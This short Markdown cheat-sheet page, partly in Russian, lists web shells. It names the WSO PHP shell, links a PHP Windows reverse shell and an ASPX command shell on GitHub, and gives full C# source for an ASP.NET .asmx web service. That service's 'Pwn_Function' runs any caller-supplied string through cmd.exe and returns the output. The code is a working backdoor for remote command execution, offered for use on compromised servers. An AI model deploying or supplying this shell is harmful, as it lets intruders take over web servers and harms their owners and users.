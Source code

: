 # WebShell

## PHP

wso web shell - 1page php script с файловым менеджером

PHP Win rev shell: [https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)

## ASP.NET

Основа (.asmx, .aspx)

```aspnet
<%@ WebService Language="C#" Class="MyClass" %> 
using System.Web.Services; 
using System; 
using System.Diagnostics; 
using System.IO; 

[WebService(Namespace="")] 
public class MyClass : WebService 
{ 
    [WebMethod] 
    public string Pwn_Function(string x) 
    { 
        ProcessStartInfo psi = new ProcessStartInfo(); 
        psi.FileName = "cmd.exe"; 
        psi.Arguments = "/c \""+x+"\""; 
        psi.RedirectStandardOutput = true; 
        psi.UseShellExecute = false; 
        Process p = Process.Start(psi); 
        StreamReader stmrdr = p.StandardOutput; 
        string s = stmrdr.ReadToEnd(); 
        return "PWNED" + s; 
    } 
}
```

aspx web shell [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)
